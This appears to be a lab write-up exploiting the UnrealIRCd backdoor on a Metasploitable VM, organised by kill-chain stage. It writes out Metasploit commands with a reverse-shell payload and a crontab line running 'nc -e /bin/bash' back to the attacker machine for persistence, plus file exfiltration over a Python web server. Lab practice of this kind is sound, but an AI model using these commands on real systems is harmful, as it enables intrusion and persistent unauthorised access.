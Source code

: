 # Exploiting `unrealirc`

## Metasploitable Method

### Reconnaissance
- Netdiscover to identify IP Address of Metasploitable (Target) VM 
- A bash script running nmap scans to identify: 
    - Open Ports 
    - Services 
    - Versions 
    - Operating System

- Identified Port 6667 is open and running unrealIRC which is vulnerable to Command Execution 

### Weaponization
- - Used Metasploit Framework to automate the exploit 
- The exploit used is unreal_ircd_3281_backdoor 
- Metaploit path is `exploit/unix/irc/unreal_ircd_3281_backdoor`
- The payload used is cmd/unix/reverse

```bash 
msfconsole 
use exploit/unix/irc/unreal_ircd_3281_backdoor
set PAYLOAD cmd/unix/reverse
set RHOSTS 192.168.56.105 # Target IP
set LHOSTS 192.168.56.106 # Kali IP
```

### Delivery
- Ran exploit 

```bash 
run
```

### Exploitation 
- Grants terminal access as "root"
- Can be confirmed by running `whoami`

### Installation 
- Created a cronjob that connects back to Kali machine with shell access 

```bash 
echo "* * * * * nc -e /bin/bash <kali_ip> 4444" >> /etc/crontab
```

### Command And Control 
- Even after the Metasploitable machine is rebooted the cronjob will attempt to connect back to the listener 

### Actions On Objectives 

- Exploitation was achieved 
- A persistent backdoor was created 
- Exfiltration of files using `python3 -m http.server`

